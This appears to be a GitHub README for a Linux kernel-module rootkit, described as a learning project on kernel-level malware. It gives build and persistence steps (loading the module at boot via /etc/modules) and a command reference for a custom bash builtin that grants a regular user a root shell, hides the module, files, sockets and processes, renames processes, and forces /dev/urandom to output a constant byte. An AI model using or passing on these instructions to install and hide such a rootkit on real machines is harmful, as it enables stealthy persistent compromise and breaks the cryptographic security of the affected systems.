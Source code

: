 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Building and Installation

step 1: open up the Makefile and set KDIR to the path of the linux source tree. this should be configured identically to the target machine's kernel, and it must be configured with support for kprobes and ftrace(these are technically not necessary for privelige escalation or toggling the module's visibility, but we haven't incorporated a compile option for only those features yet).

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure --with-bash-malloc=no and make (to have this work with different versions of Bash, go into bash-4.3/builtins, copy over gibroot.def to the other version's builtin folder, and change its Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure --with-bash-malloc=no
make
```

(extra) step 4: to make the rootkit persistent,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit.ko /lib/modules/$(uname -r)/
echo "rootkit" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit.ko
```
the module can also be removed with
```
rmmod rootkit.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## Command Reference

to escalate shell privelige to root, use
```
gibroot root
```

to restore original shell priveliges, use

```
gibroot unroot
```
<br />

to hide the kernel module from userspace, use
```
gibroot hmod
```

to restore the kernel module's visibility, use
```
gibroot smod
```

<br />

to hide a file(s) or directory(s), use
```
gibroot hide <file> ...
```
to unhide files, use
```
gibroot show <file> ...
```

<br />

to look at what files are being hidden, use
```
cat /proc/hidden_files
```

<br />

to compromise /dev/urandom so it always writes 0x20, use
```
gibroot urand
```

<br />

to whitelist processes and users from file hiding, use
```
gibroot wadd <TYPE> <NAME/ID> ...
```
to remove an entry from the whitelist, use
```
gibroot wrem <TYPE> <NAME/ID> ...
```
to view the entries in the whitelist, use
```
cat /proc/whitelist
```
supported types for the whitelist are PROCNAME,PID,UID,GID

<br />

to change the name of your bash process to something else, use
```
gibroot newname <NAME>
```
names of up to 16 characters are allowed (max length of comm field in a task struct)

<br />

to hide open sockets from userspace, use
```
gibroot hport <TYPE> <STYPE> <PORT> ...
```
to unhide open sockets, use
```
gibroot sport <TYPE> <STYPE> <PORT> ...
```
to see the contents of the socket blacklist, use
```
cat /proc/sock_blist
```
supported types for the blacklist are LOCAL, SOURCE, and DEST

supported stypes for the blacklist are STREAM, DGRAM, RAW, RDM, SEQPACKET, DCCP, and PACKET

NOTE: I have experienced a (possibly erroneous) deadlock involving ehash_locks with port/socket hiding
